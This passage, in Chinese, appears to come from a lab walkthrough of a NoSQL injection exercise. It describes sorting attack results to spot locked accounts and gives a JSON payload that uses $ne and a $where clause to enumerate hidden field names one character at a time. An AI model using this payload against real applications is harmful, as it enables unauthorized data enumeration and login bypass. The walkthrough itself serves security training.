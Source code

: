 
![图片](assets/1711872140-54180803d7c1b49277ab15997a1b8df1.webp)

按 Payload1 和 Length 对攻击结果进行排序以识别具有 Account locked 消息，请注意 Payload 2 列中字符拼出了参数的名称：username

![图片](assets/1711872140-51f996588ee2229175ef9999b10d1a93.webp)

随后重复以上步骤以识别更多的 JSON 参数，您可以通过每次尝试都增加键数组的索引来实现这一点，例如：

```plain
{"username":"carlos","password":{"$ne":"invalid"},"$where":"Object.keys(this)[2].match('^.{1}a.*')"}
```
